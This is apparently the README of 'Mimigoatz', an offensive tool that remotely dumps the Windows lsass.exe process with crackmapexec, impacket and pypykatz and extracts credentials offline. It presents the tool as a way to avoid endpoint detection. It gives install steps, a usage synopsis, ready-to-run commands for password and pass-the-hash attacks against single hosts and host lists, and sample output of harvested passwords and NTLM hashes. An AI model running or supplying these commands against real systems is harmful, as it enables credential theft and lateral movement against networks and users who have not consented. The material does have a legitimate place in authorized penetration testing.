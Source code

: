 # Mimigoatz
**Overview**

Mimigoatz is an alternative to running Mimikatz on a target system. With advances in Endpoint security and IDS, Mimikatz no longer as effective as it once was.

Mimigoatz leverages crackmapexec, impacket, and pypykatz to dump the lsass.exe process, extract it from the target, and then parse the contents offline to reveal credentials found in memory.

This requires privileged admin credentials for the target(s) to dump the lsass.exe process out of memory and will fail without sufficient access.

This may still be picked up by AV, but chances are it won't be caught.

--------------------------------------------------------------------------------


**Installation**

`pip install -r requirements.txt`

`pip3 install pypykatz`

--------------------------------------------------------------------------------




```
            _))               __  __ _           _                   _       
           > *\     _~       |  \/  (_)_ __ ___ (_) __ _  ___   __ _| |_ ____
           `;'\\__-' \_      | |\/| | | '_ ` _ \| |/ _` |/ _ \ / _` | __|_  /
              | )  _ \ \     | |  | | | | | | | | | (_| | (_) | (_| | |_ / / 
  ejm97      / / ``   w w    |_|  |_|_|_| |_| |_|_|\__, |\___/ \__,_|\__/___|
            w w                                    |___/                     

                              Version 1.0.3b | Written by Adam Logue & Ryan Griffin.

Special Thanks: Richard Young, Frank Scarpella, Zach Warren, and Piero Picasso.


usage: mimigoatz.py [-h] [-d DOMAIN] [-p PASSWORD] [-t TARGET] [-u USERNAME]
                    [-f FILE] [-H HASH] [--local]

Alternative Mimikatz LSASS DUMPER

optional arguments:
  -h, --help   show this help message and exit
  -d DOMAIN    Domain.
  -p PASSWORD  Password.
  -t TARGET    Single Target
  -u USERNAME  Username.
  -f FILE      File Containing One Host Per Line.
  -H HASH      Pass the Hash
  --local      Use Local Authentication
  ```
  
  --------------------------------------------------------------------------------
  
  **Example Usage**
  
  *Single target standard user password combination example*
  
  `python mimigoatz.py -t 10.0.0.1 -d AMERICAS -u john_smith -p Summer2019!`
  
  *Target File containing one host per line example*
  
  `python mimigoatz.py -f hosts.txt -d AMERICAS -u john_smith -p Summer2019!`
  
   *Local Admin username pass-the-hash*
   
  `python mimigoatz.py -t 10.0.0.1 -u Administrator -H c79357f8dd55539a9511ccbadf9201f8 --local`
  
  *Admin User on domain pass-the-hash*
  
  `python mimigoatz.py -t 10.0.0.1 -d AMERICAS -u john_smith -H aad3b435b51404eeaad3b435b51404ee:c79357f8dd55539a9511ccbadf9201f8` 

--------------------------------------------------------------------------------
  **Output**
  
By default, mimigoatz will output json files for each target in the format pypykatz_targetIP.json.
```
[+] wdigest:
	AMERICAS\John_Smith:Summer2019!
	AMERICAS\John_Smith:aad3b435b51404eeaad3b435b51404ee:c79357f8dd55539a9511ccbadf9201f8
[+] credssp:
	AMERICAS\John_Smith:Summer2019!
[+] msv:
	AMERICAS\John_Smith:aad3b435b51404eeaad3b435b51404ee:c79357f8dd55539a9511ccbadf9201f8
```

##TO DO##

Fix Hardcoded Impacket location
